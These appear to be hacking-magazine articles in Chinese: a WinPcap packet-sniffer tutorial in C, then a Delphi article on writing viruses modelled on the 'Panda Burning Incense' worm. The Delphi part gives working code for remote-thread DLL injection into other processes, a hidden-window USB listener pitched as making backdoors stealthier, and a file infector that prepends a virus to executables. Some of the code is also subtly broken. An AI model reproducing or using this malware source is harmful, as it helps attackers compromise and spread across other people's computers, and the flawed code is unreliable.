最后说明一点，本文写作的目的仅仅是给那些在编程方面刚入道的菜鸟们一点帮助，体会编程的魅力。在上面提供的代码的基础上，大家还可以自己添加代码以扩展其功能，但是千万不要用于非法途径，否则后果自负。

适合读者：编程爱好者  
前置知识：VC++

#### 利用 WinPcap 编写驱动 Sniffer

文 / Swords


WinPcap 是 Windows 平台下的专业网络数据包捕获开发包，是为 Libpcap 在 Windows 平台下实现数据包的捕获而设计的。在设计 WinPcap 时参照了 Libpcap，使用方法与 Libpcap 相似。使用 WinPcap 开发包，可以很容易地把在 Linux 下开发的基于 Libpcap 的程序移植到 Windows 平台下。WinPcap 是在 BSD 许可证下发布的，主要由 Lawrence Berkeley Laboratory 开发，其下载网址为 http://www.winpcap.org/。

##### 构成

WinPcap 由三个模块构成。第一个模块 NPF（Netgroup Packet Filter）是一个虚拟设备驱动程序文件。它的功能是过滤数据包，并把这些数据包原封不动地传给用户态模块。这个过程包括了一些操作系统特有的代码。第二个模块 packet.dll 是一组用户级的函数库，为 Win32 平台提供一个公共的接口。不同版本的 Windows 系统都有自己的内核模块和用户层模块，Packet.dll 用于解决这些不同。调用 Packet.dll 的程序可以运行在不同版本的 Windows 平台上，而无需重新编译。第三个模块数据包高级驱动程序库（wpcap.dll）与操作系统无关，它提供了更加高层、抽象的函数，含有诸如产生过滤器、用户级缓冲等高级功能。

##### 截获过程

- 1. 获得网卡的名称。
- 2. 设置网卡为混杂模式。
- 3. 截获数据包并保存为文件。
- 4. 分析数据包，格式化输出。

##### 代码分析

```cpp
#include <pcap.h>
#pragma comment(lib, "wpcap.lib")
/* 4字节IP地址 */
```

```cpp
typedef struct ip_address {
    u_char byte1;
    u_char byte2;
    u_char byte3;
    u_char byte4;
} ip_address;
```

/* IP包结构示意图（RFC791） */

| Version | IHL | Type of Service | Total Length |
|---|---|---|---|
| Identification | Flags | Fragment Offset |  |
| Time to Live | Protocol | Header Checksum |  |
| Source Address |  |  |  |
| Destination Address |  |  |  |
| Options | Padding |  |  |

```cpp
/* IPv4头 */
typedef struct ip_header {
    u_char ver_ihl;
    u_char tos;
    u_short tlen;
    u_short identification;
    u_short flags_fo;
    u_char ttl;
    u_char proto;
    u_short crc;
    ip_address saddr;
    ip_address daddr;
    u_int op_pad;
} ip_header;
```

#### TCP/UDP 首部与 Sniffer 示例

##### TCP Header Fields（示意）

| 行 | 字段 |
|---|---|
| 1 | Source Port \| Destination Port |
| 2 | Sequence Number |
| 3 | Acknowledgment Number |
| 4 | Data Offset \| Reserved \| Flags (U/A/P/R/S/F) \| Window |
| 5 | Checksum \| Urgent Pointer |
| 6 | Options \| Padding |
| 7 | data |

定义 TCP 首部：

```c
typedef struct tcp_header
{
    u_short sport;   // 16位源端口
    u_short dport;   // 16位目的端口
    u_int   seq;     // 32位序列号
    u_int   ack;     // 32位确认号
    u_char  lenres;  // 4位首部长度 / 6位保留字段
    u_char  flag;    // 6位标志位
    u_short win;     // 16位窗口大小
    u_short sum;     // 16位校验和
    u_short urp;     // 16位紧急数据偏移量
    u_int   op_pad;  // 32位选项
} tcp_header;
```

UDP 包如下所示，请参见 RFC768。

##### UDP Header Fields（示意）

| Source Port | Destination Port |
|---|---|
| Length | Checksum |
| data octets ... |  |

UDP header：

```c
typedef struct udp_header
{
    u_short sport;   // 16位源端口
    u_short dport;   // 16位目的端口
    u_short len;     // 16位长度
    u_short crc;     // 16位校验和
} udp_header;
```

```c
// sniffer.c：定义控制台应用程序的入口点
int main(int argc, char **argv)
{
    pcap_if_t* alldevs;
    pcap_if_t* d;
    int inum;
    int i = 0;
    pcap_t *fp;
    char *ofilename = "sniffer.txt";
    char errbuf[PCAP_ERRBUF_SIZE];
    u_int netmask;
    int res;
    struct pcap_pkthdr *header;
    const u_char *pkt_data;
    char packet_filter[] = "ip and tcp and udp";
    pcap_dumper_t *dumpfile;
    struct bpf_program fcode;
    ip_header *ih;
    tcp_header *th;
    udp_header *uh;
    u_int ip_len;
    u_short sport, dport;

    // 获得网络设备指针
    if (pcap_findalldevs_ex(PCAP_SRC_IF_STRING, NULL, &alldevs, errbuf) == -1)
    {
        fprintf(stderr, "pcap_findalldevs出错: %s\n", errbuf);
        exit(1);
    }

    // 枚举网卡信息
    for (d = alldevs; d; d = d->next)
    {
        printf("%d. %s", ++i, d->name);
        if (d->description)
            printf(" (%s)\n", d->description);
        else
            printf(" (无描述信息)\n");
    }

    if (i == 0)
    {
        printf("\n没发现任何接口，请确认是否已经安装WinPcap库\n");
        return -1;
    }

    printf("请输入网卡接口号(1-%d):", i);
    scanf("%d", &inum);
    if (inum < 1 || inum > i)
    {
        printf("\n接口号超出范围\n");
        pcap_freealldevs(alldevs);
        return -1;
    }

    // 跳到选择的网卡
    for (d = alldevs, i = 0; i < inum - 1; d = d->next, i++);

    // 打开网卡
    if ((fp = pcap_open(d->name, 65536, PCAP_OPENFLAG_PROMISCUOUS, 1000, NULL, errbuf)) == NULL)
    {
        fprintf(stderr, "\nUnable to open the adapter. %s is not supported by WinPcap\n");
        pcap_freealldevs(alldevs);
        return -1;
    }

    // 检查链路层，本程序只简单地支持以太网
    if (pcap_datalink(fp) != DLT_EN10MB) {
        fprintf(stderr, "\n本程序只简单地支持以太网。\n");
        pcap_freealldevs(alldevs);
        return -1;
    }

    if (d->addresses != NULL)
        netmask = ((struct sockaddr_in *)(d->addresses->netmask))->sin_addr.S_un.S_addr;
    else
        netmask = 0xffffff;

    if (pcap_compile(fp, &fcode, packet_filter, 1, netmask) < 0) {
        fprintf(stderr, "\n无法编译包过滤器。\n");
        pcap_freealldevs(alldevs);
        return -1;
    }

    if (pcap_setfilter(fp, &fcode) < 0) {
        fprintf(stderr, "\n设置过滤器失败。\n");
        pcap_freealldevs(alldevs);
        return -1;
    }

    printf("listening on %s...\n", d->description);
    pcap_freealldevs(alldevs);

    dumpfile = pcap_dump_open(fp, ofilename);
    if (dumpfile == NULL) {
        fprintf(stderr, "\n打开输出文件错误\n");
        pcap_close(fp);
        return -1;
    }

    while ((res = pcap_next_ex(fp, &header, &pkt_data)) >= 0) {
        if (res == 0) continue;
        pcap_dump((unsigned char *)dumpfile, header, pkt_data);

        ih = (ip_header *)(pkt_data + 14);
        ip_len = (ih->ver_ihl & 0xf) * 4;

        if (ih->proto == 6) {
            th = (tcp_header *)((u_char*)ih + ip_len);
            sport = ntohs(th->sport);
            dport = ntohs(th->dport);
            printf("%d.%d.%d.%d:%d -> %d.%d.%d.%d:%d\n",
                ih->saddr.byte1, ih->saddr.byte2, ih->saddr.byte3, ih->saddr.byte4, sport,
                ih->daddr.byte1, ih->daddr.byte2, ih->daddr.byte3, ih->daddr.byte4, dport);
        }
        else if (ih->proto == 17) {
            // UDP
            uh = (udp_header *)((u_char*)ih + ip_len);
            sport = ntohs(uh->sport);
            dport = ntohs(uh->dport);

            printf("%d.%d.%d.%d:%d -> %d.%d.%d.%d:%d\n",
                ih->saddr.byte1, ih->saddr.byte2, ih->saddr.byte3, ih->saddr.byte4, sport,
                ih->daddr.byte1, ih->daddr.byte2, ih->daddr.byte3, ih->daddr.byte4, dport);
        }
    }

    pcap_close(fp);
    pcap_dump_close(dumpfile);
    return 0;
}
```

##### 注意事项

- 1）为了导入 wpcap.dll，每个程序必须包含 pcap.h。
- 2）必须包含 wpcap.lib 库，否则无法链接成功。
- 3）添加 WPCAP 和 HAVE_REMOTE 预定义，很重要，否则会编译失败。
- 4）有时我们也需要添加 winsock2.h 和 ws2_32.lib 库。

##### 后记

我在2004年的《黑防》发表过《编写无驱动的Sniffer》一文，该文有其他协议的详细分析，所以这里就不再重复说明了，只是对代码进行了详细的说明。本文通过一个 Sniffer 实例介绍了 WinPcap 库，算是抛砖引玉吧。如果朋友们能通过本文进而精通 WinPcap 库编程，那么本文的目的就算是达成了。大家如果有什么问题，可以到黑防论坛与我交流。

#### Socket

目前，“熊猫烧香”（Worm.Nimaya）病毒正在互联网上肆虐。该病毒又称“武汉男生”，随后又化身为“金猪报喜”。它是一个感染型蠕虫病毒，能感染系统中 exe、com、pif、src、HTML、ASP 等文件，还能中止大量的反病毒软件进程，并且会删除扩展名为 GHO 的文件。被感染的用户系统中所有 .exe 可执行文件的图标均变为“熊猫烧香”。

同时，受感染的计算机还会出现蓝屏、频繁重启，以及系统硬盘中数据文件被破坏等现象。它还会在中毒电脑中所有的网页文件尾部添加病毒代码。一些网站编辑人员的电脑如果被感染，上传网页到网站后，就会导致用户浏览这些网站时也被病毒感染。

现在该病毒针对企业网络的攻势愈演愈烈，甚至出现了企业用户求助超过个人用户的状况。这意味着，单从感染计算机台数来看，该病毒感染的企业局域网内电脑数量已经比个人电脑多了数十倍，其危害性不言而喻。

不过凡事都要辩证地看，若从编程的角度来说，其实现思路还是很值得我们借鉴的，所以本期我们特别组织了三篇再现“熊猫烧香”的文章，从各个角度“还魂”熊猫，汲纳其编程精粹，提高我们的编程技巧。但大家仍然要记住技术的两面性，千万不要将其用于非法之途哦！

- 适合读者：编程爱好者
- 前置知识：Delphi

#### 以“熊猫烧香”的名义，再谈 Delphi 编写病毒程序

文／图 奶粉格瓦拉

从“熊猫烧香”肆虐网络来看，病毒编写的门槛在日益降低，用 Delphi 编写的病毒也很多了。相信有很多人和我一样正在学习 Delphi 编程，那么也同样会遇到各种各样的问题，在此就将我的一些经验和大家分享一下，也算给各位兄弟姐妹一个捷径。正所谓没吃过猪肉，还没见过猪跑吗？没做过病毒，还没中过病毒吗？对病毒的原理，相信大家肯定也都有所了解，这里我就说说三个经常有人问的方法：远程线程插入、无窗体 DLL、复制病毒体到 U 盘感染 PE 文件。相信这三个问题解决后，剩下的实现靠大家的想象力一定能做得更好。

##### 远程线程插入

无论是从启动还是进程的隐蔽性上来看，“熊猫烧香”做得并不是很好，如果用线程插入，势必会造成更大的影响。线程插入虽然不是什么新鲜的技术，连我都能掌握，更说明这不是什么高深的技巧了。但鉴于有更多的新手，我也就只好再班门弄斧了，高手别笑话啊！

还是先简单介绍一下远程线程插入的基本原理。当一个进程在运行时可以创建很多自己的本地线程来执行各种功能；远程线程插入就是我们向目标进程中创建一个新线程来执行我们自己的代码，而代码就放在 DLL 中。过程大致是这样的：创建一个 injection.exe，先提升 Debug 权限，以便可以对某些系统进程有访问权限；然后 injection.exe 将我们的 DLL 路径告诉目标程序，再使目标程序使用 LoadLibrary 加载 DLL，即可在目标进程中创建一个 DLL 中的线程了。说白了，就是找一个进程调用我们的 DLL，实现过程大致如此，大家还是先看一下代码吧。

```delphi
// 根据上面所述过程先提升 Debug 权限，这里有前置准备好的代码，涉及 3 个重要 API 函数：
// OpenProcessToken、LookupPrivilegeValue 和 AdjustTokenPrivileges
function EnabledDebugPrivilege(const Enabled: Boolean): Boolean;
var
  hTk: THandle; // 打开令牌句柄
  rtTemp: DWORD; // 调整权限时返回的值
  TokenPri: TOKEN_PRIVILEGES;
const
  SE_DEBUG = 'SeDebugPrivilege';
begin
  Result := False; // 获取进程令牌句柄，设置权限
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, hTk)) then
  begin
    TokenPri.PrivilegeCount := 1;
    // 获取 Luid（局部唯一的标识符）
    LookupPrivilegeValue(nil, SE_DEBUG, TokenPri.Privileges[0].Luid);
    if Enabled then
      TokenPri.Privileges[0].Attributes := SE_PRIVILEGE_ENABLED
    else
      TokenPri.Privileges[0].Attributes := 0;

    // 设置新的权限
    AdjustTokenPrivileges(hTk, False, TokenPri, SizeOf(TokenPri), nil, rtTemp);
    Result := GetLastError = ERROR_SUCCESS;
    CloseHandle(hTk);
  end;
end;
```

提升权限可以最大程度上地操作目标进程而不至于遇到某些进程无法插入。在提升权限后，就要将我们的 DLL 路径等信息写入到目标进程的内存空间里。这一步要做的是获得目标进程句柄，让目标程序分配内存，把 DLL 路径写入分配好的内存。此时需要用到 3 个函数：OpenProcess、VirtualAllocEx 和 WriteProcessMemory。

OpenProcess 是为了得到目标进程句柄并获得进程远程读写权限的；VirtualAllocEx 是在目标进程中分配空间用来存放 DLL 的路径，以便让目标进程找到我们的 DLL；WriteProcessMemory 是将 DLL 的文件名作为参数写入分配好的目标进程内存。将参数写入目标进程内存后，我们就可以创建远程线程了，可以使用 CreateRemoteThread 函数（这个函数也是目前杀毒软件判断的一个依据了），先来看看这个函数的使用和参数。

```delphi
function CreateRemoteThread(
  hProcess: THandle;
  // 目标进程句柄
  lpThreadAttributes: Pointer;
  // 主线程的安全性设置，nil 即可，NT专用
  dwStackSize: DWORD;
  // 堆栈大小，设为0代表使用目标进程默认堆栈大小
  lpStartAddress: TFNThreadStartRoutine;
  // 开始执行函数的地址
  lpParameter: Pointer;
  // 上面这个要执行的函数的参数
  dwCreationFlags: DWORD;
  // 线程建立的初始标记，通常填0，表示立即运行
  var lpThreadId: DWORD
  // 新生成的线程分配的线程ID
): THandle; stdcall;
```

我们先看看参数 lpStartAddress（开始执行函数的地址）。我们知道，要调用 DLL 需要使用 LoadLibrary，这个函数实际上是从 Kernel32.dll 中导出的。幸亏大部分程序都会预先调用 Kernel32.dll，所以 Kernel32.dll 里面同一个函数在所有的进程里地址都是一样的。也就是说，LoadLibrary 在 injection.exe 里的地址和在目标进程里的地址是一样的。这样一来，我们只要在创建远程线程时把 lpStartAddress 设置为 LoadLibrary 的入口，lpParameter 传入我们要插入的 DLL 路径，那么就成功创建了我们的 DLL 线程了。结合下面的代码，我们来具体理解一下。

```delphi
// 这个是查找进程ID的过程，第三个参数返回PID，关键是下一个函数
procedure FindAProcess(const AFilename: string; const PathMatch: Boolean; var ProcessID: DWORD);
var
  lppe: TProcessEntry32;
  SsHandle: THandle;
  FoundAProc, FoundOK: Boolean;
begin
  ProcessID := 0;
  SsHandle := CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  FoundAProc := Process32First(SsHandle, lppe);
  while FoundAProc do
  begin
    if PathMatch then
      FoundOK := AnsiStrIComp(lppe.szExeFile, PChar(AFilename)) = 0
    else
      FoundOK := AnsiStrIComp(PChar(ExtractFileName(lppe.szExeFile)), PChar(ExtractFileName(AFilename))) = 0;
    if FoundOK then
    begin
      ProcessID := lppe.th32ProcessID;
      Break;
    end;
    FoundAProc := Process32Next(SsHandle, lppe);
  end;
  CloseHandle(SsHandle);
end;

// 重要的线程插入过程函数
function AttachToProcess(const HostFile, GuestFile: string): DWORD;
var
  hRemoteProcess: THandle; // 目标进程句柄
  dwRemoteProcessId: DWORD; // 目标进程PID
  iSize: DWORD; // DLL文件名长度
  pszLibFileRemote: Pointer; // 目标进程中分配内存的入口
  bReturnCode: Boolean; // 是否写入内存成功
  TempVar: DWORD;
  pfnStartAddr: TFNThreadStartRoutine; // LoadLibrary入口
  pszLibAFilename: PWideChar; // 内存中存入DLL名称
begin
  Result := 0;
  EnabledDebugPrivilege(True); // 提升Debug权限
  GetMem(pszLibAFilename, Length(GuestFile) * 2 + 1);
  StringToWideChar(GuestFile, pszLibAFilename, Length(GuestFile) * 2 + 1);
  // 写入DLL路径和名称
end;
```

```delphi
iSize := (1 + lstrlenW(pszLibAFilename)) * sizeof(WCHAR);
// 计算 DLL 名称长度

FindAProcess(lHostFile, False, dwRemoteProcessID);
// 得到目标进程 PID
hRemoteProcess := OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwRemoteProcessId);
// 根据目标进程 PID 得到目标进程句柄并允许所有操作
pszLibFileRemote := PWideString(VirtualAllocEx(hRemoteProcess, nil, iSize, MEM_COMMIT, PAGE_READWRITE));
// 分配目标进程内存，返回指针
TempVar := 0;
iReturnCode := WriteProcessMemory(hRemoteProcess, pszLibFileRemote, pszLibAFilename, iSize, TempVar);
// 再将 DLL 的文件名称为参数写入目标进程内存
if iReturnCode then
begin
  pfnStartAddr := GetProcAddress(GetModuleHandle('Kernel32'), 'LoadLibraryW');
  TempVar := 0;
  // 获取 Kernel32.dll 中 LoadLibraryW（加载 DLL 用）的地址
  Result := CreateRemoteThread(hRemoteProcess, nil, 0, pfnStartAddr, pszLibFileRemote, 0, TempVar);
  // 建立远程线程，若含义中的参数解释可参阅
end;
FreeMem(pszLibAFilename);
end;
```

调用方法为：`AttachToProcess('notepad.exe', ExtractFilePath(ParamStr(0)) + 'non_form_dll.dll');`。这里我们用记事本做测试，插入 `non_form_dll.dll`，DLL 写完整路径，同时 `non_form_dll.dll` 也是下面文章中要用到的无窗体 DLL。我已经建好了 `injection.exe` 和 `non_form_dll.dll` 文件，在随文的资料中已提供，这里就不贴出来占用篇幅了。大家自己去试试吧，读懂了其实也不难吧？

## 无窗体程序复制病毒扩到 U 盘

以“熊猫烧香”来说，其传播方式是一个亮点，它不仅可以通过 U 盘等可移动存储设备和局域网弱口令共享传播，还会修改所有的 HTM、HTML、PHP、JSP 和 ASPX 文件，在末尾添加一段代码来调用有恶意代码的网页来传播，导致大面积感染。

下面我们再看看通过 U 盘等可移动存储设备传播的方法。U 盘传播的原理是监听系统消息，一旦有新设备加入便判断是否为可移动设备，是则做相应的复制等操作。关键要做的就是两步：一是监听系统消息，二是判断传播。

这里有必要先说说 Windows 的消息机制。更详细的内容大家可以翻阅相关资料。在 DOS 时代，编写程序都会关注程序运行的过程，而到了 Windows 中，我们就要响应事件。事件是无序的，比如你可以随机点击程序窗口的任意按钮或下拉菜单等组件，然而你所作的点击操作会被系统翻译成消息传给窗口，窗口再对这个点击消息做响应，这就是简单的消息机制。

同样，U 盘的插拔也是一个事件，也会产生消息，我们要做的就是捕获这个消息。举个例子，在一个有窗体的程序中，我们只要在窗体中定义下面的一个私有过程 `procedure WMDeviceChange(var msg: TMessage); message WM_DEVICECHANGE;`，其过程如下。

```delphi
procedure TForm1.WMDeviceChange(var Msg: TMessage);
var
  driver: Char; // 定义盘符
const
  DBT_DEVICEARRIVAL = $8000;
  // 有新设备的消息编号
begin
  case Msg.WParam of
    DBT_DEVICEARRIVAL: // 有设备安装完毕
      for driver := 'C' to 'Z' do // 遍历所有盘符
      begin
        case GetDriveType(PChar(driver + ':\')) of
          DRIVE_REMOVABLE:
          begin
            MessageBox(0, PChar('有可移动设备插入！'), PChar('提示'), 0);
            // 这里是处理过程，可以自己写
          end;
        end;
      end;
  end;
end;
```

我们只要把这段代码放在程序中即可监听 U 盘的插拔（同理也可以监视光驱开关等设备变化），这段代码已经很老了，就不多解释了。可是很多人却要问为什么这段代码放在一个无窗口的程序中就不能用了？这就是我们要讲的重点，不能用就是因为没有窗体。我们先看看 Win32 API 消息 `TMSG` 在 Windows 单元中的定义。

```delphi
tagMSG = packed record
  hwnd: HWND;
  // 窗口句柄
  message: UINT;
  // 消息常量标识符
  wParam: WPARAM;
  // 32 位消息的特定附加信息
  lParam: LPARAM;
  // 32 位消息的特定附加信息
  time: DWORD;
  // 消息创建时的时间
  pt: TPoint;
  // 消息创建时的鼠标位置
end;
```

很显然，消息需要窗口句柄，所以 DLL 或程序如果没有窗口，当然就不会响应 `DBT_DEVICEARRIVAL` 的消息了。难道我们要引用一个 Forms 单元来创建窗口以获得窗口吗？这样一来程序的体积会增大不少，不过解决方法还是有的。我们引用 Forms 无非是想建一个窗口，TForm 是 VCL 给我们封装好的类。我们要从源头创建窗口，可以使用 API 函数 `CreateWindowEx`（可引用 Windows 单元）来创建窗口。

在窗体创建之前要先注册窗体类。注册窗体类就是使用 `TWndClass` 数据结构存放窗口的信息，比如消息处理函数指针、图标等，然后使用 `CreateWindowEx` 创建我们设置好的窗体并返回窗体句柄。刚才我们说 `TWndClass` 数据结构有消息处理函数指针，只要我们将 `TMSG` 的回调函数置换为 Delphi VCL 封装好的 `TMessage` 的回调函数，即 `WMDeviceChange` 就可以处理消息了。好像很复杂的样子，是不是有点怕了？幸好 Delphi 在 `Classes.pas` 单元中为我们提供了一个函数 `AllocateHWnd(Method: TWndMethod)`，此函数封装了以上所述过程，如果不想深入研究就用现成的吧。该函数创建一个隐藏的窗口并返回窗口句柄，其中 `Method` 是我们的消息回调函数，即 `WMDeviceChange`，这样就可以响应来自此窗口的消息了。我们写一个类来实现创建窗口和监听处理消息，实现代码如下所示。

```delphi
type
  TMyObject = class  // 类名
  private
    FWindowHandle: HWND; // 创建的隐藏窗口的句柄
    procedure WMDeviceChange(var Msg: TMessage); message WM_DEVICECHANGE; // 消息处理过程
  public
    constructor Create();
    destructor Destroy; override;
  end;

constructor TMyObject.Create();
begin
  inherited Create();
  FWindowHandle := AllocateHWnd(WMDeviceChange);
  // 在类创建的时候就创建一个隐藏窗口并返回窗口句柄和设置回调函数
end;

destructor TMyObject.Destroy;
begin
  DeallocateHWnd(FWindowHandle);
  inherited Destroy;
end;
```

```delphi
procedure TMyObject.WMDeviceChange(var Msg: TMessage);
var
  driver: Char; // 定义盘符
const
  DBT_DEVICEARRIVAL = $8000; // 有新设备的消息编号
begin
  if Msg.WParam = DBT_DEVICEARRIVAL then
  begin
    // 有设备安装完毕
    for driver := 'C' to 'Z' do // 遍历所有盘符
    begin
      case GetDriveType(PChar(driver + ':\')) of
        DRIVE_REMOVABLE:
        begin
          // 如果是可移动驱动器则执行以下代码
          MessageBox(0, PChar('有可移动设备插入!'), PChar('提示'), 0);
          // 逻辑处理过程
        end;
      end;
    end;
  end;
end;

var
  USB: TMyObject; // 定义一个实体
  SMsg: TMsg; // 原始消息
  hThreadHandle: DWORD;
  dwThreadID: DWORD;

procedure ThreadProc;
begin
  MessageBox(0, PChar('创建线程插入成功'), PChar('提示'), 0);
  USB := TMyObject.Create; // 创建一个 USB 对象
  while GetMessage(SMsg, 0, 0, 0) do
  begin
    // 什么事都不做，仅仅为了捕获消息
  end;
end;
```

我已经将上述代码写在 `non_form_dll.dll` 中，只要利用第一个线程插入的例子，插入 U 盘就会弹出“有可移动设备插入！”，这样就实现了在 DLL 中监听窗口消息，如果是后门程序是不是更隐藏了呢？

看到这是不是觉得标题说无窗体其实也是假的，并非无窗体而是不使用 Delphi 封装好的 Form，代之以使用 API 的 `AllocateHWnd` 创建隐藏窗体。不过在编写 DLL、服务程序或者 EXE 程序时，利用这种方法可以去掉 Forms、Dialogs 等单元，从而大大减小 Delphi 编译后的程序大小，还是比较实用的。

#### PE 文件感染

“熊猫烧香”之所以叫熊猫烧香是因为有很多熊猫在烧香！

为什么有这么多熊猫在烧香，就是因为所有的 EXE 可执行文件都被它感染了。“熊猫烧香”是 Viking 蠕虫的变种，感染原理同样也是修改 PE 文件。PE 就是 Portable Executable 的缩写，也就是 Windows 可执行文件的统一格式或模式。PE 文件结构由文件头（Header）、节表（Section Table）、节（Section）和其它数据组成，结构如下。

```text
PE文件
├─DOS文件头
├─NT文件头
│ ├─标志
│ ├─文件头
│ └─可选头部
│   └─数据目录
├─节表
├─节
└─资源（图标、图像等）
```

感染可执行文件最简单的方法就是把两个程序拼合在一起，病毒程序在前，宿主程序在后。当运行合并后的程序时会运行病毒程序，病毒程序再把宿主程序释放出来运行。我们先用 Delphi 创建一个最简单的窗体程序 `test.exe` 作为宿主程序被感染，再创建一个 `Infect.exe`。`Infect.exe` 感染 `test.exe` 的过程大致是这样的：先把宿主程序 `test.exe` 复制到一个文件流 `SrcStream` 中，然后检查这个 `SrcStream` 最后 4 个字节是否为 `$44444444`（感染标记，也可以写成别的），是则表示已感染跳过。如果没有感染标记则把 `Infect.exe` 复制到另一个文件流 `SelfStream`，再将 `SelfStream` 和 `SrcStream` 合并到一个内存流 `DstStream` 中，最后再添加 4 个字节 `$44444444` 的感染标记并保存，这样就完成了对 `test.exe` 的最简单感染。以下是 Japussy 的部分关键代码，我做了修改和逐行注释，完整的演示代码在附件中（如果想得到 Japussy 的全部代码，大家可自行到网上搜索）。

```delphi
const
  VSize = 396800;      // 本程序的大小，未经压缩
  ID = $44444444;      // 感染标记，数字可以随便写

// 逐流之间复制
procedure CopyStream(Src: TStream; sStartPos: Integer;
  Dst: TStream; dStartPos: Integer; Count: Integer);
var
  sCurPos, dCurPos: Integer;
begin
  sCurPos := Src.Position;
  dCurPos := Dst.Position;
  Src.Seek(sStartPos, 0);
  Dst.Seek(dStartPos, 0);
  Dst.CopyFrom(Src, Count);
  Src.Seek(sCurPos, 0);
  Dst.Seek(dCurPos, 0);
end;

procedure InfectOneFile(FileName: string);
var
  SelfStream, SrcStream: TFileStream;
  // 两个文件流：一个存放自己，一个存放宿主程序
  DstStream: TMemoryStream;
  // 将自己和宿主程序合并后存入这个流
  iID: LongInt;
  // 取得程序的最后4个字节的数据与感染标记比对
  Infected, IsPE: Boolean;
  // 判断是否已被感染和是否为PE文件格式
  i: Integer;
  Buf: array[0..1] of Char;
begin
  try
    Infected := False;
    IsPE := False;

    // 创建宿主程序源到 SrcStream
    SrcStream := TFileStream.Create(FileName, fmOpenRead);
    try
      for i := 0 to $108 do
      begin
        SrcStream.Seek(i, soFromBeginning);
        SrcStream.Read(Buf, 2);
        if (Buf[0] = #80) and (Buf[1] = #69) then
        begin
          IsPE := True;  // 是 PE 文件
          Break;
        end;
      end;

      SrcStream.Seek(-4, soFromEnd);
      SrcStream.Read(iID, 4);
      if (iID = ID) or (SrcStream.Size > 1024000) then
        Infected := True;
    finally
      SrcStream.Free;
    end;

    if Infected or (not IsPE) then Exit;

    DstStream := TMemoryStream.Create;
    try
      SelfStream := TFileStream.Create(ParamStr(0), fmOpenRead);
      SrcStream := TFileStream.Create(FileName, fmOpenRead);
      try
        CopyStream(SelfStream, 0, DstStream, 0, VSize);
        CopyStream(SrcStream, 0, DstStream, VSize, SrcStream.Size);
        DstStream.Seek(0, soFromEnd);
        iID := $44444444;
        DstStream.Write(iID, 4);
        // 写入4个字节的感染标记
      finally
        SelfStream.Free;
        SrcStream.Free;
      end;

      DstStream.SaveToFile(FileName);
      // 替换宿主文件，保存文件
    finally
      DstStream.Free;
    end;
  except
  end;
end;

procedure ExtractFile(FileName: string);
var
  sStream: TFileStream; // 感染后程序保存为流
  DstStream: TMemoryStream; // 分离出宿主程序保存为流
begin
  try
    DstStream := TMemoryStream.Create;
    sStream := TFileStream.Create(ParamStr(0), fmOpenRead or fmShareDenyNone);
    // 将感染后的程序写入 sStream
    try
      // 跳过头部的病毒部分，指针指向宿主文件的开始
      sStream.Seek(VSize, 0);
      // 将宿主文件从 sStream 分离并复制到 DstStream
      DstStream.CopyFrom(sStream, sStream.Size - VSize - 4);
      DstStream.SaveToFile(FileName); // 保存
    finally
      sStream.Free;
      DstStream.Free;
    end;
  except
  end;
end;

procedure TForm1.Button1Click(Sender: TObject);
var
  sStream: TFileStream;
  iID: LongInt;
  SI: STARTUPINFO;
  PI: PROCESS_INFORMATION;
begin
  try
    sStream := TFileStream.Create(ParamStr(0), fmOpenRead or fmShareDenyNone);
    sStream.Seek(-4, 2);
    sStream.Read(iID, 4);
    if iID = ID then
    begin
      ExtractFile('test1.exe');
      // 最好写完整路径
      // 创建新进程运行分离出的宿主程序
      ShellExecute(Handle, '', 'test1.exe', '', nil, SW_SHOWNORMAL);
    end
    else
      ShowMessage('没有感染不能释放');
    sStream.Free;
  except
  end;
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  InfectOneFile('test.exe'); // 最好写完整路径
end;
```

如图1和图2所示，点击感染后会将 `Infect.exe` 写入 `test.exe`。熊猫烧香也是利用相同的原理遍历所有 PE 文件并感染成烧香图标的。


图1 感染前



图2 感染后

当我们运行感染后的 `test.exe` 时，会先运行 `Infect.exe`，然后点击释放并运行，便会释放 `test1.exe` 并执行，如图3所示。释放的过程是先判断是否有感染标记，再把感染后的程序复制到 `sStream`，然后把 `sStream` 从病毒体结束处（即病毒体大小）到 `sStream` 结尾前 4 个字节这一段分离出来便是宿主文件。



图3 释放宿主文件

